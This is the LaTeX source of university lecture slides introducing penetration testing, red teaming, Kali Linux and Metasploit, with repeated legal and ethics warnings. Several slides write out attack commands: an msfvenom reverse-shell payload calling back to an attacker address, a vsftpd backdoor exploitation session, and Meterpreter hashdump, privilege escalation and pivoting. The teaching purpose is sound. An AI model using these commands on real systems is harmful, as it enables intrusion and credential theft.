% ============================================================================
%  Cyber Security Master Lecture
%  Proposal: Introduction to Penetration Testing, Red Teaming,
%            Ethical Hacking, Kali Linux & Metasploit
%
%  Compile with:  pdflatex presentation.tex   (run twice for the TOC)
%  Theme:  metropolis if installed, otherwise falls back to a built-in theme.
% ============================================================================
\documentclass[aspectratio=169,11pt]{beamer}

% ---- Theme -----------------------------------------------------------------
% Try metropolis (modern, flat). If you do not have it installed, comment the
% next line and uncomment the fallback block below.
\usetheme{metropolis}
\metroset{block=fill, numbering=fraction, progressbar=frametitle}

% ---- Fallback (built-in, ships with every TeX distribution) -----------------
% \usetheme{Madrid}
% \usecolortheme{seahorse}
% \setbeamertemplate{navigation symbols}{}

% ---- Packages --------------------------------------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{booktabs}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{tikz}
\usetikzlibrary{positioning, arrows.meta, shapes.geometric}
\usepackage{fontawesome5} % icons; remove if not installed

% ---- Colours ---------------------------------------------------------------
\definecolor{kaliBlue}{HTML}{367BF0}
\definecolor{warnRed}{HTML}{C0392B}
\definecolor{okGreen}{HTML}{27AE60}
\definecolor{codeBg}{HTML}{F4F6F8}

% ---- Listings style for shell / msfconsole ---------------------------------
\lstdefinestyle{shell}{
  basicstyle=\ttfamily\footnotesize,
  backgroundcolor=\color{codeBg},
  keywordstyle=\color{kaliBlue}\bfseries,
  commentstyle=\color{okGreen},
  stringstyle=\color{warnRed},
  breaklines=true,
  showstringspaces=false,
  frame=single,
  rulecolor=\color{gray!40},
  morekeywords={nmap,msfconsole,msfvenom,use,set,run,exploit,search,sessions,
    sudo,apt,whoami,getuid,sysinfo,hashdump,ping,curl,gobuster,hydra,
    show,options,payloads,background,LHOST,RHOST,RPORT,PAYLOAD}
}
\lstset{style=shell}

% ---- Metadata --------------------------------------------------------------
\title{Offensive Security in Practice}
\subtitle{Penetration Testing, Red Teaming, Kali Linux \& Metasploit}
\author{Cyber Security Master Lecture}
\institute{Prof. Dr. Sebastian Schlesinger, HWR Berlin}
\date{\today}

% ---- Helper: warning box ---------------------------------------------------
\newcommand{\legalbox}[1]{%
  \begin{beamercolorbox}[wd=\textwidth,sep=6pt,rounded=true]{block body}%
  \color{warnRed}\textbf{\faExclamationTriangle\ Legal/Ethics:} #1%
  \end{beamercolorbox}}

\begin{document}

% ============================================================================
\begin{frame}[plain]
  \titlepage
\end{frame}

% ----------------------------------------------------------------------------
% \begin{frame}{About this proposal}
%   This deck proposes a \textbf{single 90-minute lecture} (extensible to a
%   two-session block) introducing offensive security.
%   \begin{itemize}
%     \item \textbf{Audience:} master students who have completed the prior
%           modules (Authorization, Authentication, Threat Modelling, Network
%           \& Cloud Security).
%     \item \textbf{Goal:} understand \emph{how attackers think and work}, so
%           that defensive decisions in the rest of the curriculum are grounded
%           in real adversary behaviour.
%     \item \textbf{Format:} concepts + live demo on an isolated lab VM, paired
%           with hands-on exercises (separate files).
%     \item \textbf{Stance:} strictly \emph{defensive and ethical}. Every
%           technique is taught to be detected, prevented, and reported.
%   \end{itemize}
% \end{frame}

% ----------------------------------------------------------------------------
\begin{frame}{Agenda}
  \tableofcontents
\end{frame}

% ============================================================================
\section{Ethics, Law \& Authorization}
% ============================================================================

\begin{frame}{The single most important slide}
  \begin{alertblock}{No authorization, no test.}
    Everything in this lecture is illegal \emph{without explicit, written
    permission} for the specific systems in scope.
  \end{alertblock}
  \vspace{0.5em}
  \begin{itemize}
    \item \textbf{Germany:} \S202a (data espionage), \S202b (interception),
          \S202c (``Hacker\-paragraph'' --- tools), \S303a/b (data/computer
          sabotage) StGB.
    \item \textbf{EU/US:} NIS2, GDPR; Computer Fraud and Abuse Act (US).
    \item A penetration test is a \textbf{contract}: scope, rules of
          engagement (RoE), timeframe, emergency contacts, ``get-out-of-jail''
          letter.
  \end{itemize}
  \legalbox{Scanning a host you do not own --- even a single \texttt{nmap}
  run --- can already be a criminal offence.}
\end{frame}

\begin{frame}{Authorization in practice}
  A real engagement always starts with paperwork, not tooling:
  \begin{itemize}
    \item \textbf{Statement of Work (SoW)} --- what, why, deliverables.
    \item \textbf{Scope} --- IP ranges, domains, apps; explicit \emph{out of
          scope} list.
    \item \textbf{Rules of Engagement} --- allowed techniques (no DoS? no
          social engineering?), testing window, data handling.
    \item \textbf{Authorization letter} --- signed by someone who actually
          owns the assets.
    \item \textbf{Safe-lab alternative} for learning: HackTheBox, TryHackMe,
          VulnHub, your own VMs --- explicitly built to be attacked.
  \end{itemize}
\end{frame}

% ============================================================================
\section{Terminology \& Landscape}
% ============================================================================

\begin{frame}{What is what? (people confuse these constantly)}
  \begin{table}
  \footnotesize
  \begin{tabular}{@{}p{3.1cm}p{8.3cm}@{}}
  \toprule
  \textbf{Term} & \textbf{Meaning} \\
  \midrule
  Vulnerability scan & Automated, breadth-first detection of known flaws. No exploitation. \\
  Penetration test   & Goal: find \emph{and prove} exploitable issues in a defined scope, time-boxed. \\
  Red teaming        & Goal-oriented adversary \emph{emulation}; tests detection \& response, not just vulns. Stealth matters. \\
  Bug bounty         & Crowd-sourced, continuous, pay-per-valid-finding. \\
  Purple teaming     & Red + Blue collaborating in real time to improve detections. \\
  Ethical hacking    & Umbrella term: authorized offensive security work. \\
  \bottomrule
  \end{tabular}
  \end{table}
  \vspace{0.3em}
  \footnotesize\textbf{Rule of thumb:} a pentest asks \emph{``can we get in?''};
  a red team asks \emph{``will anyone notice when we do?''}.
\end{frame}

\begin{frame}{Pentest flavours}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{By knowledge given to tester}
      \begin{itemize}
        \item \textbf{Black box} --- no info, simulates outsider.
        \item \textbf{Grey box} --- partial info / a user account.
        \item \textbf{White box} --- full info, source, architecture.
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{By vantage point / target}
      \begin{itemize}
        \item External (internet-facing)
        \item Internal (assume-breach, insider)
        \item Web / API / Mobile
        \item Wireless, Cloud, Physical
        \item Social engineering
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.6em}
  More information given $\Rightarrow$ more thorough, less realistic.
\end{frame}

% ============================================================================
\section{Methodology \& Frameworks}
% ============================================================================

\begin{frame}{Standards you should be able to name}
  \begin{itemize}
    \item \textbf{PTES} --- Penetration Testing Execution Standard (7 phases).
    \item \textbf{NIST SP 800-115} --- technical guide to security testing.
    \item \textbf{OSSTMM} --- Open Source Security Testing Methodology Manual.
    \item \textbf{OWASP WSTG / MASTG} --- web \& mobile testing guides.
    \item \textbf{MITRE ATT\&CK} --- knowledge base of real adversary TTPs.
    \item \textbf{Lockheed Martin Cyber Kill Chain} --- 7-stage intrusion model.
    \item \textbf{TIBER-EU} --- regulator framework for threat-led red teaming
          (finance sector).
  \end{itemize}
  \footnotesize Frameworks give you a \emph{repeatable, defensible} process ---
  crucial for a report that holds up.
\end{frame}

\begin{frame}{The attack lifecycle}
  \centering
  
\begin{tikzpicture}[
    node distance=4mm,
    stage/.style={draw, rounded corners, fill=kaliBlue!12, text width=2.4cm,
      align=center, font=\scriptsize, minimum height=1.1cm},
    arr/.style={-{Stealth[length=2mm]}, thick, kaliBlue}]
    \node[stage] (recon) {1. Recon \\ \scriptsize OSINT, footprinting};
    \node[stage, right=of recon] (scan) {2. Scanning \& Enumeration};
    \node[stage, right=of scan] (exploit) {3. Exploitation \\ \scriptsize gain foothold};
    \node[stage, below=of exploit] (post) {4. Post-Exploitation \\ \scriptsize privesc, loot};
    \node[stage, left=of post] (lat) {5. Lateral Movement \& Persistence};
    \node[stage, left=of lat] (report) {6. Reporting \& Cleanup};
    \draw[arr] (recon) -- (scan);
    \draw[arr] (scan) -- (exploit);
    \draw[arr] (exploit) -- (post);
    \draw[arr] (post) -- (lat);
    \draw[arr] (lat) -- (report);
    \draw[arr] (lat.north) to[bend left=20] (scan.south);
  \end{tikzpicture}
  \vspace{0.4em}
  \par\footnotesize The loop back to enumeration is the reality:
  each compromised host opens a new internal network to map.
\end{frame}

\begin{frame}[fragile]{Phase 1--2: Recon \& Enumeration}
  \textbf{Passive (no packets to target):} WHOIS, DNS, certificate
  transparency, Shodan, Google dorking, LinkedIn, breach dumps.
  \vspace{0.5em}
  \textbf{Active:} port/service scanning, banner grabbing, directory
  brute-forcing.
  \begin{lstlisting}[language=bash]
# Host discovery + service/version detection
nmap -sV -sC -p- -oA scan 10.10.10.5

# Web content discovery
gobuster dir -u http://10.10.10.5 -w wordlist.txt
  \end{lstlisting}
  \footnotesize Enumeration is where pentests are won. ``Enumerate, then
  enumerate again'' --- most footholds come from a service the team almost
  skipped.
\end{frame}

% ============================================================================
\section{Kali Linux}
% ============================================================================

\begin{frame}{Kali Linux: the offensive distro}
  \begin{columns}[T]
    \begin{column}{0.58\textwidth}
      \begin{itemize}
        \item Debian-based, maintained by \textbf{Offensive Security}.
        \item Ships 600+ pre-installed security tools.
        \item Rolling release; runs as VM, live USB, WSL, ARM, cloud.
        \item Designed for \emph{single-purpose} use --- not a daily driver.
      \end{itemize}
      \textbf{Tool categories (the menu):}
      \begin{itemize}\footnotesize
        \item Info gathering: \texttt{nmap}, \texttt{recon-ng}, \texttt{theHarvester}
        \item Vuln analysis: \texttt{nikto}, \texttt{nuclei}
        \item Web: \texttt{Burp Suite}, \texttt{sqlmap}, \texttt{gobuster}
        \item Exploitation: \texttt{Metasploit}, \texttt{searchsploit}
        \item Password: \texttt{hashcat}, \texttt{john}, \texttt{hydra}
        \item Wireless: \texttt{aircrack-ng}; Sniffing: \texttt{wireshark}
      \end{itemize}
    \end{column}
    \begin{column}{0.42\textwidth}
      \begin{alertblock}{\footnotesize Alternatives}
        \footnotesize Parrot OS, BlackArch, Commando VM (Windows). The distro
        is just a curated toolbox --- the skills transfer.
      \end{alertblock}
      \legalbox{\footnotesize Run it in an \emph{isolated} host-only network.
      Never point fresh-installed tools at production by accident.}
    \end{column}
  \end{columns}
\end{frame}

% ============================================================================
\section{The Metasploit Framework}
% ============================================================================

\begin{frame}{Metasploit: what it is}
  \begin{itemize}
    \item Open-source exploitation framework (Rapid7 + community), the
          de-facto standard for learning exploitation.
    \item Turns the workflow ``find exploit $\to$ pick payload $\to$ deliver
          $\to$ control'' into a uniform interface.
    \item Editions: \textbf{Framework} (free, CLI) vs Pro (commercial, GUI).
  \end{itemize}
  \textbf{Module types --- the mental model:}
  \begin{table}\footnotesize
  \begin{tabular}{@{}ll@{}}
  \toprule
  \texttt{exploits} & code that triggers a vulnerability \\
  \texttt{payloads} & what runs after success (e.g.\ Meterpreter, shell) \\
  \texttt{auxiliary} & scanners, fuzzers, sniffers --- no payload \\
  \texttt{post} & post-exploitation (gather creds, pivot) \\
  \texttt{encoders / nops} & evade naive signatures / pad payloads \\
  \bottomrule
  \end{tabular}
  \end{table}
\end{frame}

\begin{frame}[fragile]{Payloads: staged vs stageless, Meterpreter}
  \begin{itemize}
    \item \textbf{Singles/stageless} --- self-contained
          (\texttt{.../shell\_reverse\_tcp}).
    \item \textbf{Staged} --- tiny stager pulls the rest
          (\texttt{.../meterpreter/reverse\_tcp}), noted by the \texttt{/}.
    \item \textbf{Bind} (attacker connects in) vs \textbf{reverse}
          (target calls home --- beats inbound firewalls, the common case).
    \item \textbf{Meterpreter} --- in-memory, extensible payload: file system,
          \texttt{hashdump}, keylogging, pivoting, all without touching disk.
  \end{itemize}
  \begin{lstlisting}[language=bash]
# msfvenom: generate a standalone payload artifact
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.3 LPORT=4444 -f exe -o shell.exe
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Metasploit: a typical console session}
  \begin{lstlisting}[language=bash]
$ msfconsole -q
msf6 > search vsftpd 2.3.4
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD cmd/unix/interact
msf6 exploit(...) > exploit
[*] Command shell session 1 opened ...
$ whoami
root
msf6 > sessions -l        # list active sessions
msf6 > sessions -i 1      # interact
  \end{lstlisting}
  \footnotesize Same six verbs everywhere: \texttt{search, use, show options,
  set, exploit/run, sessions}. Learn the rhythm, not the exploit list.
\end{frame}

\begin{frame}[fragile]{Post-exploitation with Meterpreter}
  \begin{lstlisting}[language=bash]
meterpreter > getuid           # who am I?
meterpreter > sysinfo          # OS, arch
meterpreter > getsystem        # attempt privilege escalation
meterpreter > hashdump         # dump local password hashes
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.9  # pivot
meterpreter > background        # keep session, return to msf
  \end{lstlisting}
  \vspace{0.3em}
  \textbf{Goals after foothold:} escalate privileges, harvest credentials,
  establish persistence, move laterally, reach the objective (``crown jewels'').
  \legalbox{\footnotesize \texttt{hashdump} / persistence on a real client
  system must be covered by the RoE and cleaned up afterwards.}
\end{frame}

% ============================================================================
\section{Red Teaming}
% ============================================================================

\begin{frame}{From pentest to red team}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{Penetration test}
      \begin{itemize}\footnotesize
        \item Maximize \emph{coverage} of vulns
        \item Scope = list of assets
        \item Blue team often knows
        \item Output: vuln report
        \item Days--2 weeks
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{Red team engagement}
      \begin{itemize}\footnotesize
        \item Achieve a \emph{specific objective} (e.g.\ ``read the CEO's
              mail'')
        \item Scope = goal + RoE, stealthy
        \item Blue team usually blind (tests detection)
        \item Output: attack narrative + detection gaps
        \item Weeks--months
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.5em}
  Red teaming emulates a \textbf{named threat actor} using ATT\&CK TTPs ---
  ``threat-led''. Regulated version: \textbf{TIBER-EU}.
\end{frame}

\begin{frame}{Red team building blocks}
  \begin{itemize}
    \item \textbf{Initial access:} phishing, valid creds, exposed service,
          USB drop.
    \item \textbf{C2 (Command \& Control):} Cobalt Strike (commercial),
          Sliver, Mythic, Havoc --- beacons that call back over HTTPS/DNS.
    \item \textbf{OPSEC \& evasion:} obfuscation, sleep/jitter, living-off-the-land
          (LOLBins), AV/EDR bypass --- \emph{controlled}, to test detection.
    \item \textbf{Persistence \& lateral movement:} scheduled tasks, Kerberos
          abuse, pass-the-hash.
    \item \textbf{Purple teaming:} replay each TTP \emph{with} the blue team to
          tune detections --- the real value for the client.
  \end{itemize}
  \legalbox{\footnotesize Evasion is taught here to \emph{understand detection},
  not to attack uninvolved third parties.}
\end{frame}

% ============================================================================
\section{Reporting \& Defence}
% ============================================================================

\begin{frame}{The deliverable is the report, not the shell}
  \begin{itemize}
    \item \textbf{Executive summary} --- business risk, no jargon.
    \item \textbf{Findings} --- each with: description, evidence (screenshots,
          requests), \textbf{CVSS} score, affected assets, reproduction steps.
    \item \textbf{Remediation} --- concrete, prioritized fixes.
    \item \textbf{Attack narrative} (red team) --- the story, mapped to ATT\&CK,
          with detection opportunities the blue team missed.
  \end{itemize}
  \vspace{0.4em}
  \begin{block}{Blue-team takeaways (why this matters for defenders)}
    Patch \& configuration management, network segmentation, least privilege,
    MFA, logging \& EDR, and \emph{practiced} incident response defeat most of
    what we showed today.
  \end{block}
\end{frame}

% ============================================================================
\section{Lab \& Wrap-up}
% ============================================================================

\begin{frame}{How to practice legally}
  \begin{columns}[T]
    \begin{column}{0.5\textwidth}
      \textbf{Vulnerable targets}
      \begin{itemize}\footnotesize
        \item Metasploitable 2/3
        \item DVWA, OWASP Juice Shop
        \item VulnHub VM images
      \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      \textbf{Guided platforms}
      \begin{itemize}\footnotesize
        \item TryHackMe (beginner-friendly)
        \item Hack The Box / HTB Academy
        \item PortSwigger Web Security Academy
        \item PicoCTF, OverTheWire
      \end{itemize}
    \end{column}
  \end{columns}
  \vspace{0.5em}
  \textbf{Certifications to know:} CEH (broad), \textbf{OSCP} (hands-on, the
  classic), PNPT, CRTP/CRTO (red team), GPEN.
  \begin{block}{Recommended lab for the exercises}
    Kali Linux VM + Metasploitable 2, both on a \textbf{host-only} network.
    %Setup instructions are in the exercises file.
  \end{block}
\end{frame}

\begin{frame}{Summary}
  \begin{itemize}
    \item Offensive security is \textbf{authorized, methodical, and reported} ---
          the paperwork matters as much as the payload.
    \item Pentest = find \& prove vulns; Red team = emulate an adversary and
          test detection.
    \item A repeatable \textbf{methodology} (PTES, ATT\&CK) beats a bag of tricks.
    \item \textbf{Kali} is the toolbox; \textbf{Metasploit} is the uniform
          exploitation workflow: \texttt{search $\to$ use $\to$ set $\to$ exploit
          $\to$ sessions}.
    \item Every offensive technique maps to a \textbf{defensive} control ---
          that is the point of teaching it.
  \end{itemize}
\end{frame}

% \begin{frame}[standout]
%   Questions?\\[1em]
%   \small Now move to the hands-on exercises.
% \end{frame}

\begin{frame}{References \& further reading}
  \footnotesize
  \begin{itemize}
    \item PTES --- \url{http://www.pentest-standard.org}
    \item NIST SP 800-115 --- Technical Guide to Information Security Testing
    \item MITRE ATT\&CK --- \url{https://attack.mitre.org}
    \item OWASP Web Security Testing Guide --- \url{https://owasp.org/wstg}
    \item Metasploit Unleashed (OffSec) --- \url{https://www.offsec.com/metasploit-unleashed/}
    \item Kali docs --- \url{https://www.kali.org/docs/}
    \item TIBER-EU framework --- European Central Bank
    \item Books: \emph{The Hacker Playbook 3}; \emph{Penetration Testing}
          (Georgia Weidman); \emph{Red Team Field Manual}.
  \end{itemize}
\end{frame}

\end{document}
